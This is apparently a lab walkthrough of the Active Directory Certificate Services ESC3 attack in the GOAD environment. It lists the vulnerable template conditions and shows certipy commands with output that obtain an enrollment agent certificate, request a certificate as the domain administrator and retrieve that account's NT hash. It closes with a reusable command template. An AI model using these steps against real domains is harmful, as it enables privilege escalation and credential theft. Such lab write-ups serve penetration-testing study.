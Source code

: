 The Certificate Request Agent EKU (Enrollment Agent) enables a principal to request a certificate on behalf of another user. The `enrollment agent` enrolls in this template and employs the resulting certificate to collaboratively sign a Certificate Signing Request (CSR) on behalf of another user. Subsequently, the enrollment agent forwards the co-signed CSR to the Certification Authority while enrolling in a template that authorises `enroll on behalf of`. In response, the CA issues a certificate belonging to the `other` user.

Requires two templates matching the connections.
### Condition 1  

A template allows a low-privileged user to enrol in an enrolment agent certificate

- The Enterprise CA grants low-privileged users enrolment rights (same as `ESC1`).
- Manager approval should be turned off (same as `ESC1`).
- No authorised signatures are required (same as `ESC1`).
- The security descriptor of the certificate template must be excessively permissive, allowing low-privileged users to enrol for certificates (same as `ESC1`).
- The certificate template includes the `Certificate Request Agent EKU`, specifically the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1), allowing the requesting of other certificate templates on behalf of other principals.

![[Pasted image 20241006151606.png]]

### Condition 2

Another template permits a low privileged user to use the enrolment agent
certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

- The Enterprise CA grants low-privileged users enrolment rights (same as `ESC1`).
- Manager approval should be turned off (same as `ESC1`).
- The template schema version 1 or is greater than 2 and specifies an Application Policy Issuance Requirement that necessitates the Certificate Request Agent EKU.
- The certificate template defines an EKU that enables domain authentication.
- No restrictions on enrolment agents are implemented at the CA level.

In the following example the `User` template  matches the requirements. The following was taken from Windows as this provides more information. This does not flag as an ESC3 vulnerability:

![[Pasted image 20241006153253.png]]

The following template can also be used is it matches the `Schema Version 2` requirements

![[Pasted image 20241006150915.png]]

First we request a certificate as our self targeting the vulnerable template:

```bash
garffff@garffff:~/GOAD/esc3$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC3-CRA -ca ESSOS-CA -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 34
[*] Got certificate with UPN 'khal.drogo@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'khal.drogo.pfx'
```

Next is to request a certificate on behalf of the target user:

```bash

garffff@garffff:~/GOAD/esc3$ certipy req -u khal.drogo@essos.local -p 'horse' -template User -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 35
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then authenticate as that user and obtain the hash

```bash
garffff@garffff:~/GOAD/esc3$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Summary

The `-on-behalf` need to be  the NetBIOS  of the domain and not the FQDN. E.g. `essos` and not `essos.local`

```bash
certipy req -u <user>@<domain> -p '<password>' -template <condition1_template> -ca <ca> -dc-ip <adcs_ip>
certipy req -u <user>@<domain> -p '<password>' -template <condition2_template> -ca <ca> -on-behalf-of '<domain>\<target_user>' -pfx <user>.pfx -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```

